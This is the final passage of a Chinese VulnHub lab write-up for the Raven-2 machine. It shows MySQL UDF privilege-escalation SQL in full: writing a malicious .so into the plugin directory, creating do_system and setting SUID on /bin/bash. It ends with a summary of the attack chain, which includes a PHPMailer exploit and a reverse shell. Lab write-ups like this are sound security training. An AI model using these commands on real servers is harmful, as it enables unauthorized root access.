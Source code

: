 ![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-2\29.jpg)

这时候确定后，可以开始进行下一步操作了，这里不止可以定义`do_system()`，还有`sys_exec()`也行的，不过这里的脚本中的定义名为`do_system`，所以使用这个函数调用。

具体的可以再去看`c`文件，或者自己去编写

```shell
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
create function do_system returns integer soname '1518.so';
select * from mysql.func;
select do_system('chmod u+s /bin/bash');
```

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-2\30.jpg)

再通过`do_system`执行加权限

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-2\31.jpg)

在`root`用户的主目录下，找到最后的`flag`

![](D:\stu\vulnhub\OSCP必刷靶场\raven系列\pic-2\32.jpg)

# 总结

该靶场与前面靶场`raven-1`考察点是一样的，不过这里`ssh`爆破取消了。

1. 网站目录爆破，发现名信息
2. 使用`php mailer`对应的版本漏洞进行复习操作
3. 获取反弹`shell`后，发现`mysql`与`wordpress`连接的数据库文件
4. 上传`pspy64`获取到`mysql`以`root`身份运行的，所以权限很高
5. 查看到`wordpress`的用户密码后，能破解的，还是登录网站查看，因为可能有其他敏感信息，多收集
6. 测试`mysql udf`提权有无条件，也就是安全策略方面，能否写入和导出，以及插件目录的权限等等

























